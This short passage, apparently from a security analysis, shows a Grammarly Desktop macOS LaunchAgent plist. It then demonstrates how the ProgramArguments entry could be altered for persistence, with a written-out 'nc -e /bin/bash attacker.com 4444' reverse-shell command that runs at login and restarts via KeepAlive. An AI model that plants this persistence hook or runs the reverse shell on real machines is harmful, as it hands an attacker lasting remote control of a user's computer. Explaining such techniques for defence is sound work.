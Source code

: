 ```xml
	<key>KeepAlive</key>
	<true/>
	<key>Label</key>
	<string>com.grammarly.ProjectLlama.Shepherd</string>
	<key>MachServices</key>
	<dict>
		<key>com.grammarly.nativemessaging.discovery</key>
		<true/>
	</dict>
	<key>ProgramArguments</key>
	<array>
		<string>/Applications/Grammarly Desktop.app/Contents/Library/LaunchAgents/Grammarly Desktop Helper.app/Contents/MacOS/Grammarly Desktop Helper</string>
	</array>
	<key>RunAtLoad</key>
	<true/>
</dict>
</plist>
```

We could modify the `ProgramArguments` array to execute malicious commands instead of or alongside the legitimate Grammarly helper:

```xml
<key>ProgramArguments</key>
<array>
    <string>/bin/bash</string>
    <string>-c</string>
    <string>nc -e /bin/bash attacker.com 4444 &amp;&amp; /Applications/Grammarly Desktop.app/Contents/Library/LaunchAgents/Grammarly Desktop Helper.app/Contents/MacOS/Grammarly Desktop Helper</string>
</array>
```

The `RunAtLoad` and `KeepAlive` keys make this particularly dangerous because the malicious payload would execute automatically at login and restart if it crashes. The `MachServices` configuration also provides inter-process communication capabilities that could be exploited.
